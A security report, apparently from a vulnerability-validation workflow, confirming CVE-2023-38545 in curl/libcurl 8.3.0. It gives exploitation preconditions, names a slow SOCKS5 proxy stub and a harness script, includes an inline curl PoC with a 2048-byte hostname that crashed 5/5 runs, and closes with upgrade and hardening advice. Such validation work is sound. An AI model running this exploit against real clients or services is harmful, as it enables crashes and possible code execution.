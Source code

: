 ### Exploitation preconditions (validated)
- curl/libcurl < 8.4.0 (observed 8.3.0; recon.curl_binaries).
- Use SOCKS5 with remote DNS: socks5h://.
- Hostname length > 255 bytes (tested 2048 and 4096).
- Slow/partial proxy behavior to induce backpressure/partial writes: a custom SOCKS5 stub replies to the greeting slowly and never reads the CONNECT body.
- Throttled client sender (--limit-rate 1k) increases reliability.
- Shared memory: CVE-2023-38545.preconditions, CVE-2023-38545.poc_cli, cve38545_trigger_checklist.

## Exploitation and PoC artifacts
- Proxy script (backpressure; does not read CONNECT body):
  - /tmp/slow_socks5_v2.py (shared: poc.slow_socks5_v2.py)
  - Launch example: `python3 /tmp/slow_socks5_v2.py 0.3 > /tmp/slow_socks5_v2.log 2>&1 &`
- Harness script for repeatable runs:
  - /tmp/poc_cve_2023_38545.sh (shared: poc.cve_2023_38545.sh)
  - Usage: `bash /tmp/poc_cve_2023_38545.sh`
  - Tunables: HOSTLEN (default 2048), RUNS (default 5), PROXY_DELAY (default 0.3), CURL_BIN (default /usr/local/bin/curl)
- Representative inline PoC command:
  - `/usr/local/bin/curl -vvv --no-progress-meter --limit-rate 1k -x socks5h://127.0.0.1:1080 "http://$(python3 - <<'PY'
print('a'*2048)
PY
)/" --max-time 20`

## Validation results
- Harness run summary (system curl 8.3.0): 5/5 runs crashed (exit=139), after printing a diagnostic similar to: "SOCKS5: server resolving disabled for hostnames of length > 255 [actual len=2048]".
- Conclusion: Working exploit confirmed; deterministic crash with stated conditions.
- Sanitizer validation: Pending. ASAN build could not be performed due to missing source tree at /codebase/curl-8.3.0 (shared: asan.output). If provided, we will build and attach sanitizer logs pointing into lib/socks.c.
- Shared memory confirmation: poc.exec_results captures run attempts and outcomes.

## Risk and impact assessment
- Exploitability: High for denial of service via crash; potential for code execution depends on allocator/ASLR, heap layout, and surrounding memory objects. Vendor rates as high severity.
- Affected usage patterns:
  - Any application using libcurl 8.3.0 (or other vulnerable <8.4.0) with SOCKS5 remote DNS (socks5h) where an attacker can influence hostnames (direct user input or via redirects).
  - CLI users employing socks5h proxies, especially when following redirects (-L), are at risk.
- Related hardening observed in 8.4.0 (context):
  - Strict hostname length rejection in socks.c.
  - HTTP header accounting tightened (DoS mitigation).
  - Content-encoding and pause handling centralized (reducing state bugs).

## Mitigations and recommendations
- Immediate: Upgrade to curl/libcurl 8.4.0 or newer across all environments.
- Interim workarounds:
  - Avoid socks5h://; prefer socks5:// (local DNS resolution) or HTTP CONNECT proxies until upgrade.
  - Avoid -L (follow redirects) when using SOCKS5h.
  - Use --resolve to force local resolution for known hosts.
  - Apply distribution vendor backports if upgrading is not immediately feasible.
- Deployment hardening for clients/bundled libcurl:
  - Ensure builds use ASLR/PIE, RELRO, stack canaries, and hardened allocators where possible.
  - Consider process sandboxing and egress rules limiting proxy usage.
